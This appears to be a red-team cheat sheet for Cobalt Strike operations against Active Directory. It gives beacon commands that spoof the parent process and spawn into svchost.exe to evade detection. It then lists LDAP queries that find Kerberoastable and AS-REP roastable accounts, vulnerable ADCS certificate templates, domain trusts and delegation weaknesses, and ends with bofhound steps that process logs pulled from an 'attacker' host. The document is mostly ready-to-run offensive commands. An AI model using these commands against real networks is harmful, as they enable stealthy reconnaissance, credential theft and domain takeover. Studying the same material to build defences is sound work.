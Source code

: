 
Set PPID to svchost - med-integ
```powershell
ppid 6424 
spawnto x64 C:\Windows\System32\svchost.exe
```

```powershell
--dn DC=contoso,DC=enclave
```

Domain, users, groups, OUs, and GPOs.
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```

Trusts
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

ADCS + ESC1–ESC8
```powershell
ldapsearch (|(objectClass=pKIEnrollmentService)(objectClass=pKICertificateTemplate)(objectClass=msPKI-Enterprise-Oid)) *,ntsecuritydescriptor

ldapsearch (objectClass=pKICertificateTemplate) --attributes cn,msPKI-Enrollment-Flag,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag,msPKI-RA-Signature,msPKI-Application-Policies,msPKI-Subject-Name-Flag,ntSecurityDescriptor
```

Kerberoastable Users
```
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

AS-REP Roastable Users
```
ldapsearch "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes samAccountName,userAccountControl,objectsid,ntsecuritydescriptor
```

Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Role-based Constrained Delegation
```powershell
ldapsearch "(&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes samAccountName,dnshostname,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor

ldapsearch "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" --attributes samAccountName,servicePrincipalName,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor

```
---

Bofhound
```powershell
scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .

bofhound -i logs/
```

Search single SID
```powershell
ldapsearch (objectSid=S-1-5-21-1330904164-3792538338-293942156-2103)

ldapsearch (objectSid=S-1-5-21-1076548718-1118529210-2193484809-2601) --dn DC=contoso,DC=enclave
```
